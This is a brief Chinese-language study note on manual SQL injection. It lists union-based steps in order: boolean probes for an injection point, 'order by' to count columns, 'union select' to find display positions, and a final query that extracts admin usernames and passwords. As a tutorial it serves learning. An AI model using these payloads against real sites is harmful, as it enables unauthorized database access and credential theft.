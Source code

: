 ```yaml
---
title: 【笔记】SQL Injection 注入攻击
categories:
  - 网络安全
date: 2020-03-27 23:46:23
---
```


## 前言

SQL注入攻击入门学习笔记

<!-- more -->

## 本质

- 攻击者通过构造不同的SQL语句来实现对数据库的操作

## 条件

1. 参数用户可控

2. 参数带入数据库查询

## SQL手注的一般流程

### 判断注入点

- 通过sql语句的boolean值，查看返回页面的现实状态，如果出现异常，则有可能存在sql注入

``` sql
?id=1 and 1=1
?id=1 and 1=2
```

### 判断字段数

- 利用`order by`排序语句，依次排序每个字段（通过编号），直到报错，则报错的前一个数为数据库字段数

``` sql
?id=1 order by 1;
?id=1 order by 2;
?id=1 order by 3;
```

### 判断回显点

- 通过查看临时的数据，查看网页返回数据后显示的内容位置，来判断回显点

``` sql
?id=1 union select 1,2 from admin;
```

### 查询相关内容

- 将查看回显点改为查看管理员用户名和密码

``` sql
?id=1 union select username,password from admin;
```

## 完成

## 参考文献

[哔哩哔哩——腾讯掌控安全学院](https://www.bilibili.com/video/BV1qt41157pF)

